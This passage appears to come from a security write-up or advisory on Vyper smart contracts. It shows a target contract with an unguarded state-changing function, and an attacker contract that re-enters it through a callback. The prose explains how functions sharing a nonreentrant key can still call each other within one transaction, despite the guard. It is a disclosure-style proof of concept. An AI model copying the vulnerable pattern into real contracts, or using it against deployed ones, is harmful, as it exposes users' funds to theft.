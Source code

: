 ```python
    else:
        return 2

@external
def unprotected_function(val: String[100], do_callback: bool):
    self.special_value = val

    if do_callback:
        self.callback.updated()

@external
@nonreentrant('protect_special_value')
def another_protected_function(val: String[100], do_callback: bool) -> uint256:
    self.special_value = val

    if do_callback:
        self.callback.updated_protected()
        return 1
    else:
        return 2
```

Next, we create the caller contract `caller.vy` as the attacker contract,

```python
interface SpecialContract:
    def unprotected_function(val: String[100], do_callback: bool): nonpayable
    def protected_function(val: String[100], do_callback: bool): nonpayable
    def special_value() -> String[100]: nonpayable

@external
def updated():
    SpecialContract(msg.sender).unprotected_function('surprise!', False)

@external
def updated_protected():
    SpecialContract(msg.sender).protected_function('surprise protected!', False)  # This should fail.  # noqa: E501
```

A brief explanation: the `caller` contract has two functions `updated` and `updated_protected` that call the `unprotected_function` and `protected_function` of the `target` contract respectively.

- We can create a transaction which calls `target.unprotected_function(some_value,True)` to modify the value of `special_value`. By using reentrancy call, we can re-enter the same function `unprotected_function` and change the value of `special_value` again. This is a typical re-entrancy scenario.
- Because of the decoration `@nonreentrant('protect_special_value')`, we couldn't do the same for the function `target.protected_function`.
- However, we can call `target.protected_function(some_value,True)` from the callback inside `target.another_protected_function(some_value,True)` in the same transaction. This leads to a mutual call between `target.protected_function` and `target.another_protected_function` in the same transaction, which is not supposed to happen by the reentrancy guard.
